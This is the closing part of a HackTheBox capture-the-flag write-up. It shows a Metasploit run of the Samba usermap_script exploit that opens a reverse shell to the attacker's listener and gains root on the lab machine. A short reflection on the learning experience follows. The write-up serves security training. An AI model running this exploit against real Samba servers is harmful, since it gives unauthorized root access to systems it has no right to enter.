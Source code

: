 For this exploit we only have to set the rhosts and run the exploit. 

```sh
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.34:4444 
[*] Command shell session 1 opened (10.10.14.34:4444 -> 10.10.10.3:34509) at 2020-10-30 00:25:19 +0100

id;whoami
uid=0(root) gid=0(root)
root
```

This exploit gave as root access to the Machine. 

Now we have root access we can check for the User.txt and the Root.txt file and submit it to HackTheBox. 

# Conclusion

I have to say, i was clueless about the enumeration of the weakness of this box. I had a hint, on an writeup of this box, that Samba is the way in. So i have payed more attention to this section. 

This was my first Box with this kind of vulenrability. I have learnd some new skills about samba and how i can exploit this kind of version. 

Th4nks 4 R3ad1ng

Fr3akazo1d
